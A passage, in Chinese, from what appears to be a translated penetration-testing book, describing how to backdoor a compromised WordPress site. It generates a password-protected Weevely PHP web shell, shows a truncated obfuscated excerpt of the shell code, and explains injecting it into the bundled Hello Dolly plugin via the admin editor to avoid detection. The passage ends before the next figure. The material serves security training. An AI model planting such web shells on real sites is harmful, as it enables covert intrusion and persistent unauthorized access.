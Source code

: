 ![Foothold](img/B09238_13_07.jpg)

图 13.6：WordPress 插件

如果我们想保持低调并避免被发现，我们可以选择更加手动的方法。由于我们完全控制了 CMS，我们可以像 Metasploit 一样创建并上传自定义插件，或者更好的是，我们可以对现有插件进行后门处理。

为了保持趣味性，我们将选择后门路径，再次利用 Weevely，因为它提供了一种安全且难以检测的 shell。我们将执行`weevely generate`命令，并检查新创建的`shell.php`文件内容，如下所示：

```
**root@kali:~# weevely generate Dock3r%Knock3r ~/tools/shell.php**
**Generated backdoor with password 'Dock3r%Knock3r' in '/root/tools/shell.php' of 1466 byte size.**
**root@kali:~# cat /root/tools/shell.php** 
**<?php**
**$D=str_replace('Gx','','creGxatGxGxe_fGxGxunctGxion');**
**[...]**
**$V=$D('',$J);$V();**
**?>**

```

对于这个场景，我们不会将 PHP shell 上传到磁盘并直接访问。相反，我们将修改一个现有文件，并将内容注入其中。我们有多个选择，但我们将选择自带的 Hello Dolly 插件，WordPress 自带此插件。WordPress 管理面板提供了**插件** > **编辑器**功能，允许修改插件的 PHP 代码。攻击者特别喜欢具备此功能的应用，因为它大大简化了操作。

我们的目标是来自 Hello Dolly 插件的`hello.php`文件。其大部分内容将被生成的`weevely shell.php`文件所替换，如下图所示：
